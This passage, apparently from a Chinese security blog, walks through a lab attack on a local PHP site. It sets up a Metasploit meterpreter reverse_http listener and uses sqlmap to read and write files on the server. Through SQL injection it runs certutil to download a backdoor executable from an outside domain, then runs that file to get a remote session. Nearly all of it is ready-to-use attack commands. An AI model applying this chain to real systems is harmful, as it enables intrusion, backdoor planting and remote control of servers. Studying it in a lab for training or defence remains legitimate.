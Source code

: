 ![](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132518525-182636984.png)

放在阿里云网站目录上，访问www.mumuxi8.com/sql.exe进行下载。这里我们远程执行命令，利用命令行下载：certutil.exe -urlcache -split -f http://www.mumuxi8.com:80/sql.exe d:/sql.exe
msf监听1111端口：
use exploit/multi/handler 
set payload windows/meterpreter/reverse_http
set lhost 0.0.0.0
set lport 1111
run

![](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132515596-225834953.png)

用到高权限SQL注入进行文件读取：python310 sqlmap.py -u "http://127.0.0.1:8081/web/mysql/news.php?id=1" --file-read "d:/w.txt"
读取的结果保存在了文件中。路径：C:\Users\我是正经人z\AppData\Local\sqlmap\output\127.0.0.1\files

![](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132517217-1064852099.png)

写入文件：python310 sqlmap.py -u "http://127.0.0.1:8081/web/mysql/news.php?id=1" --file-write "d:/w.txt" --file-dest "d:/1.txt" 
w.txt是要写的文件（本地），1.txt是后门文件（远程）

![](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132512979-251556262.png)

命令执行：python310 sqlmap.py -u "http://127.0.0.1:8081/web/mysql/news.php?id=1" --os-cmd="certutil.exe -urlcache -split -f http://www.mumuxi8.com:80/sql.exe d:/sql.exe"

![](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132515836-2004167529.png)

![](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132513530-2012553424.png)

命令执行，执行后门代码上线：python310 sqlmap.py -u "http://127.0.0.1:8081/web/mysql/news.php?id=1" --os-cmd="d:/sql.exe"
执行成功，收到会话。

![](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132517336-1520202008.png)

![](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132515750-1542695345.png)

